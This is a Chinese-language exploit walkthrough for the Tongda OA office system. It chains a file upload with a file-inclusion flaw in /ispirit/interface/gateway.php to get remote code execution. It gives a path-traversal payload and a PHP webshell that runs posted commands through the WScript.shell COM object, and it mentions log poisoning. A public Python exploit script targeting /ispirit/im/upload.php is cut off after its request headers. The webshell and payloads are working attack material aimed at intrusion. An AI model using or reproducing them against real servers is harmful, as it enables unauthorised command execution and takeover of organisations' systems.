 由于这里的关键上传了文件后 OA 系统有个文件包含漏洞，结合文件包含漏洞就可以实现 RCE

文件包含代码位置

/ispirit/interface/gateway.php  

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0icbKibHNV56rFruqeicHDHx1KoNLw5dFALsiaTp2IETwaibfVxStvLTzOKEK5gMzMv4YZyzzG93popxiag/640?wx_fmt=png)

首先会接受一个 json 数据，然后转换为数组，然后遍历这个数据，如果 key 是 url，url 就对应值

然后继续走

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0icbKibHNV56rFruqeicHDHx1KSEeQt4nxZsccVhEx7gSNJSaCATpo0blrHKDcDibiae9hspWd23ES70AA/640?wx_fmt=png)

然后走到 strpos，可以看到如果出现 general/，ispirit，module / 就会触发文件包含构造 payload

/general/../../attach/im/2003/1191415788.1.php

由于我上传的时候是 phpinfo 函数，是禁用了这个函数的和危险函数，这里可以使用写入一个 webshell 在当前执行的 / ispirit/interface / 目录下

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0icbKibHNV56rFruqeicHDHx1KpkYHkZt52VESy4MTtQdcFqD1HkOSk7az0G6DysEoUUt4uLbFqnN03Q/640?wx_fmt=png)

记得这里文件名前面要加个 \\

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0icbKibHNV56rFruqeicHDHx1KcTktoFnJ6UecFnHkxqVImlRIqL7bAkjcWicvIrMF3oxwibBJoibkS1Oqw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0icbKibHNV56rFruqeicHDHx1KxdpV8EHiby8dcR4nzRhdAmbyiaNKVo3K00eyUatLC0UUSwV1atVblxLA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0icbKibHNV56rFruqeicHDHx1Kq9iclLBdO0I8cpQQxQKYTgt1eayHI9iavnnHsKv9rUibBbxq1VCjr0S5Q/640?wx_fmt=png)

当然也可以使用 COM 组件 bypass 危险函数

```
<?php
$command=$\_POST\['cmd'\];
$wsh = new COM('WScript.shell');
$exec = $wsh->exec("cmd /c ".$command);
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?>
```

也可以直接使用文件包含配合日志 getshell

直接触发 nginx 的错误日志，利用文件包含直接 getshell

利用网上公开的脚本：

```
#!/usr/bin/env python3
# -\*- encoding: utf-8 -\*-
# oa通达文件上传加文件包含远程代码执行
import requests
import re
import sys

def oa(url):
    upurl = url + '/ispirit/im/upload.php'
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,\*/\*;q=0.8", "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1", "Content-Type": "multipart/form-data; boundary=---------------------------27723940316706158781839860668"}
```